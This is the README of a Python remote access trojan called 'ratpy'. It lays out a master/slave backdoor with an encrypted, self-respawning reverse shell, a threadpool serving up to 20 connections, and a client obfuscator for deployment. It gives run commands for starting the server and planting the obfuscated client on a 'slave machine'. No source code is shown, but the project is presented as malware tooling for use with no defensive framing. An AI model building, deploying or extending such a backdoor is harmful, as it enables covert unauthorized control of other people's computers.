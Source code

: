 # ratpy
#### another snake friendly rat
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>

### Backbone branch - simple backdoor without tools
### ________

## Architecture
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
### _________________________________________________________________________

### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
* obfuscator - obfuscator for client side RAT deployement
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
### _________________________________________________________________________

## Adding extensions
* to be written in a new future

## Development to v1.0
* [ ] clean up code, refactor and move args.py to interface
* [ ] write client obfuscator
* [ ] open master branch with binary tools for remote deployment
* [ ] document adding extensions

